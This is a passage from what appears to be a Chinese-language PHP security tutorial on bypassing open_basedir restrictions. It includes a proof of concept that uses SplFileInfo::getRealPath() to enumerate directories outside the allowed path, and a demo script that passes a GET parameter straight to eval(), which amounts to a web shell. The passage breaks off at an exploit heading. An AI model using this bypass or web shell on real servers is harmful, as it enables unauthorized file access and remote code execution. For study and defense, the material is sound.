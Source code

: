 ```php
}
?>

```

利用SplFileInfo::getRealPath()列举目录
================================

**SplFileInfo**类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。其中有一个和realpath名字很像的方法叫getRealPath。

这个方法功能和realpath类似，都是获取绝对路径用的。我们在SplFileInfo的构造函数中传入文件相对路径，并且调用getRealPath即可获取文件的绝对路径。

这个方法有个特点：**完全没有考虑open\_basedir**。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。  
所以不像realpath需要考虑是否在open\_basedir下面的条件

P神POC

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```

利用chdir与ini\_set
================

首先解释一下**ini\_set**  
<https://www.php.net/manual/zh/function.ini-set>  
这里先放一下demo network师傅的

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```

EXP:
